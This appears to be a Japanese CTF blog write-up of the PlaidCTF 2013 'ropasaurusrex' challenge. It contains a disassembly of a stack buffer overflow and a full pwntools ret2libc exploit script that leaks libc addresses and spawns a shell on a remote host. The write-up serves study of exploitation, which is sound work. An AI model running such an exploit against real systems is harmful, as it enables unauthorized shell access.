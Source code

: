 ```yaml
---
layout: post
alias: "/blog/2016/02/15/plaidctf-2013-ropasaurusrex/"
title: "Plaid CTF 2013 ropasaurusrex"
date: 2016-02-15T23:20:14+09:00
tags: [ "ctf", "writeup", "pwn", "plaidctf", "return-oriented-programming", "buffer-overflow", "stack-overflow" ]
---
```


binary読んだり脆弱性探したりする必要がなく単にropするだけなのでとても楽。

## [ropasaurusrex](http://shell-storm.org/repo/CTF/PlaidCTF-2013/Pwnable/ropasaurusrex-200/)

``` sh
$ file ropasaurusrex
ropasaurusrex: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=96997aacd6ee7889b99dc156d83c9d205eb58092, stripped

$ checksec --file ropasaurusrex
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   ropasaurusrex
```

xinetd型。relro無し。canary無し。libcは与えられる。

``` sh
$ ll ropasaurusrex
-rwxr-xr-x 1 user user 2948 Apr 22  2013 ropasaurusrex
```

コードはとても短かくて、実質以下のふたつの関数のみからなる。

``` asm
080483f4 <bof>:
 80483f4:       55                      push   ebp
 80483f5:       89 e5                   mov    ebp,esp
 80483f7:       81 ec 98 00 00 00       sub    esp,0x98
 80483fd:       c7 44 24 08 00 01 00    mov    DWORD PTR [esp+0x8],0x100
 8048404:       00 
 8048405:       8d 85 78 ff ff ff       lea    eax,[ebp-0x88]
 804840b:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 804840f:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 8048416:       e8 11 ff ff ff          call   804832c <read@plt>
 804841b:       c9                      leave  
 804841c:       c3                      ret    

0804841d <main>:
 804841d:       55                      push   ebp
 804841e:       89 e5                   mov    ebp,esp
 8048420:       83 e4 f0                and    esp,0xfffffff0
 8048423:       83 ec 10                sub    esp,0x10
 8048426:       e8 c9 ff ff ff          call   80483f4 <bof>
 804842b:       c7 44 24 08 04 00 00    mov    DWORD PTR [esp+0x8],0x4
 8048432:       00 
 8048433:       c7 44 24 04 10 85 04    mov    DWORD PTR [esp+0x4],0x8048510 # "WIN\n"
 804843a:       08 
 804843b:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 8048442:       e8 c5 fe ff ff          call   804830c <write@plt>
 8048447:       c9                      leave  
 8048448:       c3                      ret    
```

### 攻撃

普通にropする。`read`のアドレスを`write`して脆弱性のある関数を呼び出し、得られた`read`のアドレスから`system`と`"/bin/sh"`を計算し、再度ropしこれを呼ぶ。

### 実装

`objdump -R ropasaurusrex | grep read`とかして出てきたアドレスをコピペして即値として使ってたらコピペミスが発生したので、ちゃんとpwnlibの[機能](http://pwntools.readthedocs.org/en/2.2/elf.html)を使いました。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()

elf = ELF('./ropasaurusrex')
if args.host == 'localhost':
    libc = ELF('/usr/lib32/libc.so.6')
else:
    libc = ELF('./libc.so.6')

bof = 0x80483f4 # the vulnerable function
buffer_len = 0x88

context.log_level = 'debug'
p = remote(args.host, args.port)

payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(elf.symbols['write'])
payload += p32(bof)
payload += p32(1) # stdout
payload += p32(elf.got['read'])
payload += p32(4) # len
p.send(payload)
resp = p.recvn(4)
read = u32(resp)
libc_base = read - libc.symbols['read']

payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(libc_base + libc.symbols['system'])
payload += 'AAAA' # cont
payload += p32(libc_base + next(libc.search('/bin/sh')))
p.send(payload)

p.sendline('ls')
p.interactive()
```
